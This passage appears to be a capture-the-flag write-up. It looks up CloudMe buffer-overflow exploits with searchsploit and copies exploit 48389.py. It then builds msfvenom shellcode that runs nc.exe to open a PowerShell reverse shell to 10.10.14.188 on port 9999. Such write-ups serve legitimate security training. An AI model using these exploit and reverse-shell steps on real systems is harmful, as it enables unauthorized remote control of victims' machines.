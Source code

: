 This CloudMe seems a little bit vulnerable:

```
$ searchsploit cloudme
----------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                     |  Path
----------------------------------------------------------------------------------- ---------------------------------
CloudMe 1.11.2 - Buffer Overflow (PoC)                                             | windows/remote/48389.py
CloudMe 1.11.2 - Buffer Overflow (SEH_DEP_ASLR)                                    | windows/local/48499.txt
Cloudme 1.9 - Buffer Overflow (DEP) (Metasploit)                                   | windows_x86-64/remote/45197.rb
CloudMe Sync 1.10.9 - Buffer Overflow (SEH)(DEP Bypass)                            | windows_x86-64/local/45159.py
CloudMe Sync 1.10.9 - Stack-Based Buffer Overflow (Metasploit)                     | windows/remote/44175.rb
CloudMe Sync 1.11.0 - Local Buffer Overflow                                        | windows/local/44470.py
CloudMe Sync 1.11.2 - Buffer Overflow + Egghunt                                    | windows/remote/46218.py
CloudMe Sync 1.11.2 Buffer Overflow - WoW64 (DEP Bypass)                           | windows_x86-64/remote/46250.py
CloudMe Sync < 1.11.0 - Buffer Overflow                                            | windows/remote/44027.py
CloudMe Sync < 1.11.0 - Buffer Overflow (SEH) (DEP Bypass)                         | windows_x86-64/remote/44784.py
----------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

$ searchsploit -p 48389
  Exploit: CloudMe 1.11.2 - Buffer Overflow (PoC)
      URL: https://www.exploit-db.com/exploits/48389
     Path: /usr/share/exploitdb/exploits/windows/remote/48389.py
File Type: ASCII text, with CRLF line terminators
```

Let's see this BoF exploit:

```
$ cp /usr/share/exploitdb/exploits/windows/remote/48389.py .
$ nvim 48389.py
```

It seems the embedded shellcode is only making appear calc.exe, we need a
reverse shell instead. The last option is to name the variable _payload_ instead of _buf_.

```
$ msfvenom -p windows/exec CMD='C:\xampp\htdocs\gym\upload\nc.exe 10.10.14.188 9999 -e powershell.exe' -b '\x00\x0A\x0D' -f python -v payload
```
